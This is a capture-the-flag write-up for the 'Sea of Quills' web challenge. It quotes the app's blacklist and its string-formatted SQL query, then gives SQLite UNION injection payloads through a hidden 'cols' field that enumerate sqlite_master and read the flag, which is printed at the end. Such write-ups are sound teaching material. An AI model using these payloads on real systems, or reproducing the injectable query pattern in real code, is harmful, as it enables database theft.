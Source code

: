# Sea of Quills

## Description

Come check out our [finest selection of quills](https://seaofquills.2021.chall.actf.co/)!

[app.rb](app.rb)

## Solution

First of all let's analyze the code, we have 3 interesting part:

Some characters are blacklisted

```ruby
blacklist = ["-", "/", ";", "'", "\""]
	
blacklist.each { |word|
	if cols.include? word
		return "beep boop sqli detected!"
	end
}
```

Field `lim` and `off` must be numeric

```ruby
if !/^[0-9]+$/.match?(lim) || !/^[0-9]+$/.match?(off)
		return "bad, no quills for you!"
	end
```

There is also a `cols` field
```ruby
@row = db.execute("select %s from quills limit %s offset %s" % [cols, lim, off])
```

Given this information we probably need to do some SQL injection using the `cols` field

In the `/explore` page we cannot see the `cols` field, but by analyzing and edit the HTML code we can remove the hidden tag 

![](img1.png)
![](img2.png)

Now we can start with the SQL injection (lim=100, off=0)

First things first, we need to understand where we can find the flag and we can do it by see which table are present in the DB

```SQL
name FROM sqlite_master UNION SELECT url
```

![](img3.png)

There is a `flagtable`, so let's try to get the flag now

```SQL
flag FROM flagtable UNION SELECT url
```

![](img4.png)

#### **FLAG >>** `actf{and_i_was_doing_fine_but_as_you_came_in_i_watch_my_regex_rewrite_f53d98be5199ab7ff81668df}`